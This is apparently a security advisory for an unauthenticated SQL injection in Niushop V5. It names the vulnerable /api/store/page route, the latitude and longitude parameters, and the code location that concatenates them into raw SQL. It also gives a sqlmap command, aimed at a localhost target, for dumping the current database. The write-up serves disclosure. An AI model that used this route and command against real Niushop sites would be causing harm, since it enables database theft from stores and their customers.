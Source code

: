 ### A SQL injection vulnerability exits inNiushop V5

Official website：https://gitee.com/niushop-team/niushop_b2c_v5#https://gitee.com/link?target=https%3A%2F%2Fwww.kancloud.cn%2Fniucloud%2Fniushop_b2c_v5%2F3037616](https://gitee.com/niushop-team/niushop_b2c_v5#https:/gitee.com/link?target=https%3A%2F%2Fwww.kancloud.cn%2Fniucloud%2Fniushop_b2c_v5%2F3037616

Version：V5

Route：/api/store/page?latitude=1&longitude=1

Injection parameters：latitude and longitude

#### 1.Vulnerability analysis

In the **getLocationStoreList** function in niushop_b2c_v5-master/niushop/app/model/store/Store.php, the native SQL statement concatenates $lnglat[ 'lng' ] and $lnglat[ 'lat' ].

![image-20250218145237300](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20250218145237300.png)

And niushop_b2c_v5-master/niushop/app/api/controller/Store.php calls this method.

![image-20250218145245956](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20250218145245956.png)

The vulnerability condition can be triggered without logging in.

#### 2.Vulnerability verification and exploitation

https://127.0.0.1/api/store/page?latitude=1&longitude=1

sqlmap --batch --tamper=space2comment -r post.txt -- current-db

![image-20250218145310991](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20250218145310991.png)

![image-20250218145317558](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20250218145317558.png)

![image-20250218145332706](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20250218145332706.png)